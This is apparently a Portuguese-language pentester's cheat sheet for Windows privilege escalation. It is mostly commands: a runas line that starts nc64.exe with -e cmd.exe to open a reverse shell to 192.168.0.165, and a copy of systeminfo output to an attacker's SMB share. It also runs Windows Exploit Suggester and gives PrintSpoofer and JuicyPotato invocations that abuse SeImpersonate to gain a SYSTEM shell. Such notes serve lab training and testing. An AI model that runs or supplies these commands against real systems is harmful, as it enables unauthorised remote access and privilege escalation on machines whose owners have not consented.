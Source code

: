 ```
runas/user:acosta ".\nc64.exe -e C:\windows\system32\cmd.exe 192.168.0.165 8083"
```


## Kernel exploitation

https://github.com/SecWiki/windows-kernel-exploits

    Winver 

```
systeminfo > si.txt
copy si.txt \\10.10.14.17\smb\si.txt
```

Na máquina do atacante

### Windows Exploit Suggester

```
pip install wesng

sudo ln -s /home/acosta/.local/bin/wes /usr/bin/wes

wes --update
dos2unix si.txt
wes si.txt
```

Pesquisas no google

## User Permissions (whoami /priv)

Teste basiquinho primeiro, porque mudei de ideia:

```
whoami /priv
```

Aqui vale considerar os exploits Potatoes:

```
PrintSpoofer32.exe -i -c powershell
```

O exploit abaixo tem que considerar as portas abertas no firewall para ele funcionar adequadamente:

```
./jp.exe -t * -p c:\temp\s.bat [-l porta]
```
```
whoami /priv

SeImpersonate

PrintSpoofer32.exe -i -c powershell

JuicyPotato.exe -t * -p shell.bat -l 4444

jp.exe -t * -p shell.bat -l 4444

whoami /all

SE IMPERSONATE
```
**LEMBRAR DE QUE AS PORTAS UTILIZADAS NO COMANDO DEVEM ESTAR LIBERADAS NO FIREWALL.**
